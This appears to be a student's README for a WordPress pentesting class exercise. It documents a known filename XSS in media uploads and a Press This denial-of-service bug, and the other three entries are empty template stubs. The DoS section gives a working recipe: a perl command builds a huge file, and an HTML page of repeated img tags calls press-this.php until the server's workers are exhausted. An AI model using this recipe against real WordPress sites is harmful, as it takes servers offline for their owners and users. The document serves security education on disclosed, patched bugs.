 
# Project 7 - WordPress Pentesting

Time spent: **6** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID 8819
  - [ ] Summary: Inject a malicious script in to the filename which a victim tries to upload leading to XSS inside the administrators control panel.
  Two different "file to large" cases end up in interpolating the file name and appending it into DOM unsanitized leading to XSS.
    - Vulnerability types:injecting a scpript 
    - Tested in version: 
    - Fixed in version: 
  - [ ] GIF Walkthrough: 8819.gif
  - [ ] Steps to recreate: step 1: downloading a 20mb file
  2. Changing file name in order to expoloit it
  3. upload it to http://localhost/wp-admin/media-new.php
  - [ ] Affected source code:
    - [Link 1](https://hackerone.com/reports/203515)
    
    
2. (Required) Vulnerability Name or ID 8770
  - [ ] Summary: 
The Press This [4] function allows quick publishing with a special web
browser bookmarklet. An admin can also visit the Press This page
directly. One of the features of Press This is scanning an external
server for embeddable content. This is done with a GET request to:

https://www.securify.nl/wp-admin/press-this.php?u=<URL>&url-scan-submit=Scan

When this URL is called, Press This will download the contents located
at "URL" and look for content such as images and other embeddable
elements.
 This property can be abused by setting the
external URL to a huge file and have an authenticated admin visit it.
The PHP process will use 100% of its CPU resources to process the file.
If an authenticated admin can be lured to an external page, then the
malicious URL can be called many times, blocking all PHP server threads.
This will cause the server to be unreachable for a while.
    - Vulnerability types: DDOS
    - Tested in version: 
    - Fixed in version: 
  - [ ] GIF Walkthrough: 8770.gif
  - [ ] Steps to recreate:  
1. Install plug in Press This
2. Send get request on press this
3. On an external server, create a large text file with the command:
perl -e 'print "<>"x28000000' > foo.txt
4.Create a file dos.html on the external server with enough entries
to fill the connection pool of the WordPress server, as follows:
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=b'>
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=c'>
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=d'>
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=e'>
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=f'>
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=g'>
[..]
(replace <wp server> with the WordPress server address and <external
server> with the external server)
  5. Now have a logged in admin visit dos.html. The server will be down for a
while.
  - [ ] Affected source code: https://hackerone.com/reports/153093
    - [Link 1](https://github.com/WordPress/WordPress/commit/263831a72d08556bc2f3a328673d95301a152829)
  
  
3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
    
    
    
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

dos.html, dos, 

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

All of these challenges are very hard to find and follow as I am a Fincanca major with zero computing and linux background.
## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
